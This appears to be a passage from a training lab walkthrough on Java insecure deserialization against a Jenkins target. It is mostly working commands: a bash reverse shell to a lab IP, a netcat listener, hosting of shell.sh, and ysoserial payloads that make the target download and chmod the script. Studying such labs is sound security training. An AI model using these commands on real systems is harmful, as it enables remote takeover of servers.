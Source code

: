 

----

#### Lab2: Java Insecure Deserialization II

Copy and paste the python exploit code and save it as exploit.py.

**Source:** https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py



Create a reverse shell payload.

Copy and paste the command into a file and save it as **shell.sh**.

```
bash -i >& /dev/tcp/192.24.161.2/9999 0>&1
```



Setup a Netcat listener that will be listening for connections on port 9999.

```
nc -lvp 9999
```



Host the shell.sh file using a Python SimpleHTTPServer. In the same directory where the file is present, execute the below.

```
python -m SimpleHTTPServer 8888
```

 

Generate a payload with a **ysoserial** file and make the target machine download the shell.sh file from attacker machine.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "curl http://192.24.161.2:8888/shell.sh -o /tmp/shell.sh" > /root/payload.out
```



 Execute the python exploit code.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

This result from the python server shows that shell.sh file is downloaded by the target machine, and the payload is working as expected.



We have to run the python exploit two more times to execute the bash script in the target machine.

Generate a payload again for making the downloaded shell.sh file executable.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "chmod +x /tmp/shell.sh" > /root/payload.out
```
